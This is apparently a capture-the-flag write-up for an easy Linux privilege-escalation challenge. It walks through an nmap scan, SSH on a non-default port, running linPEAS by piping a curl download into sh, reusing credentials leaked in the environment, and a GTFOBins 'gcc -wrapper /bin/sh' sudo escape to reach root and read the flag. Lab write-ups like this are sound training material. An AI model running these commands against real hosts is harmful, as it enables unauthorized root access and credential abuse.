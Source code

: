 # CTF Writeup:  Town Pulse

## Challenge Overview
* **Category:** OS Exploitation
* **Difficulty:** ["Easy"]
* **Description:** We have access to a linux box, need to find vulnerabile configuration to escalate privileges and find flag. 


## Tools Used

- [linPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)
- [GTFOBins](https://gtfobins.github.io/)
- bash

---

## Solution

Usual disclaimer here: the following solution was the one that worked and there was some trial and error to find it. Omitting those dead-ends for brevity.  

### Step 1: Initial Access

```bash
ssh Pentester@<ip>

# no response
```

```bash
nmap -sV <ip>

#shows diff port
```

```bash
ssh -p 2222 Pentester@<ip>
```


Challenge requires privilege escalation so let's go script kiddie and fetch a tool to search for privilege escalations ("privesc" as it's call in "the biz"):

```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh

```

Under Environment we see `JOAN_TEMPORARY_CREDS=jojocreds1`

Well well well. For reasons mysterious there are temp creds for another user in our environment of our account. Let's try sshing into their account and see what permissions they have. Fingers crossed they're in sudoers and we can use their privilege to escalate ours **sinister laughing**. 

What's our target account though? 

```bash
ls /home/
# shows JOan 
```
Its probably the joan account. 

```bash

ssh joan@localhost
# no response
```

---

### Step 2: Priv Esc

Now we have access to joan's account, see what groups she's in

```bash
groups
Joan sudo
```

Cool, now let's add our pentester account to sudoers

```bash
sudo usermod -aG sudo Pentester
Sorry, user Joan is not allowed to execute '/usr/sbin/usermod -aG sudo Pentester' as root on dad5f987a15f."
```

Nope. Gah! Rubbing my brow here as I was heading for a PB for unfinished challenges in this event. Thankfully team-work makes the dream work and I looked to the east for a teammate wizard saviour:

![image](./gandalf-white.gif)

Lol, thanks wizard teammate 🧙 10 seconds, one command, and a URL later: 

```bash
sudo -l
(ALL) NOPASSWD: /usr/bin/gcc
```

https://gtfobins.github.io/gtfobins/gcc#sudo

Doopdeedoop, let's try that command

```bash
gcc -wrapper /bin/sh,-s .
sudo usermod -aG sudo Pentester
exit
exit
# to log out the pentester and apply the new group, then ssh back in.
```

```bash
ssh -p 2222 Pentester@<ip>
```

```bash
groups
Pentester sudo
```

Huzzah. Now what commands can we run as sudo?
```bash
sudo -l
(ALL) NOPASSWD: /usr/bin/gcc
```

Run that GTFOBin again. 

And Bam! we're root.  

---

### Step 3: Flag Retrieval

Now we are gods, the flag's gotta be here somewhere, normally I use find (looking for flag.txt) or grep (looking for string FLAG within a file) on the entire file system. Trying find first

```bash
find / -name flag.txt -type f
/root/flag.txt
```

Looks promising. 

```bash
cat /root/flag.txt
FLAG{7H15_SUDO_C00K3D_R007}
```

![image](./victory.gif)


---

## Notes

- Don't be afraid to ask for help when you get blocked. Difficult for you can be easy for someone else and vice versa. 
- As a team, set up some tools in comms (like threads in channels) to share progress on challenges.
- Linpeas and gftobins are l337h4x0r was to privesc on linux. 🫶

---


